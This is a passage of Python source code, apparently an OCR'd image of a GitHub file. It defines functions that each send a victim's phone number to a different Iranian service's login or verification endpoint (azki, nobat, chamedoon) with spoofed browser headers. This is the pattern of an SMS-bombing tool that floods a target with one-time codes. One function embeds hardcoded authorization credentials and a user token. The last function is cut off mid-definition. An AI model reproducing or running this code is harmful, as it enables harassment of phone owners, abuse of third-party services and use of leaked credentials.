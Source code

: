 def azki(phone):
    azkU = f'https://www.azki.com/api/core/app/user/checkLoginAvailability/%7B"phoneNumber":"azki_{phone}"%7D'
    azkH = {
'accept': 'application/json, text/plain, */*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'authorization': 'Basic QmltaXRvQ2xpZW50OkJpbWl0b1NlY3JldA==',
'device': 'web',
'deviceid': '6',
'password': 'BimitoSecret',
'origin': 'https://www.azki.com',
'referer': 'https://www.azki.com/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36',
'user-token': 'LW6H4KSMStwwKXWeFey05gtdw2iW8QRtSk70phP6tBJindQ4irdzTmSqDI9TkVqE',
'username': 'BimitoClient'
    }
    try:
        ok = post(timeout=5, url=azkU, headers=azkH).json()
        if ok["messageCode"] == 201:
            print(f'{g}(Azki) {w}Code Was Sent')
            return True
    except:
        pass

def nobat(phone):
    noJ = {'mobile': phone}
    noU = 'https://nobat.ir/api/public/patient/login/phone'
    noH = {
'accept': '*/*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'access-control-request-headers': 'nobat-cookie',
'access-control-request-method': 'POST',
'origin': 'https://user.nobat.ir',
'referer': 'https://user.nobat.ir/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36'
    }
    try:
        ok = post(timeout=5, url=noU, headers=noH, json=noJ).json()
        if ok["status"] != 'failed':
            return True
    except:
        pass
def chmdon(phone):
    chJ = {
    "mobile": '0'+phone.split('+98')[1],
    "origin": "/",
    "referrer_id": None
    }
    chU = 'https://chamedoon.com/api/v1/membership/guest/request_mobile_verification'
    chH = {
'accept': 'application/json, text/plain, */*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'content-type': 'application/json;charset=UTF-8',
'cookie': 'activity=%7B%22referrer_id%22%3Anull%2C%22origin%22%3A%22%2F%22%7D',
'origin': 'https://chamedoon.com',
'referer': 'https://chamedoon.com/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36'
    }